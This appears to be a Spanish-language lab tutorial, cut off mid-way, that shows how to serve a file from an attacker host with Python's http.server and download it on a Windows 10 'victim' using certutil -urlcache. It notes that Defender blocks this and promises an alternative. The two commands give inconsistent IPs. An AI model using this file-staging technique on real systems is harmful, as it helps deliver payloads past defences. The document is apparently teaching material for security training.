


📌 1. Crear un archivo de prueba
Primero generamos un archivo simple que será servido a la máquina Windows:

bash
echo "Hola mundo" > hola.txt

📌 2. Levantar un servidor HTTP con Python
Usamos el módulo http.server para exponer el archivo en el puerto 8080:

bash
python3 -m http.server 8080

Código
http://<IP_DEL_ATACANTE>:8080/hola.txt
📌 3. Descargar el archivo desde Windows usando certutil
En la máquina víctima (Windows 10), intentamos descargar el archivo:

powershell
certutil -split -urlcache -f http://10.10.10.3:8080/hola.txt archivo_copiado.txt

 Seguido de eso vamos a nuestra **Maquina Victima,** abrimos una terminal y ejecutamos el siguiente comando:

certutil -split -urlcache -f http://10.1.10.3:8080/hola.txt archivo_copiado.txt

Como podemos ver al dia de hoy windopws defender bloquea esto. Por lo que agregaremos una alternativa:

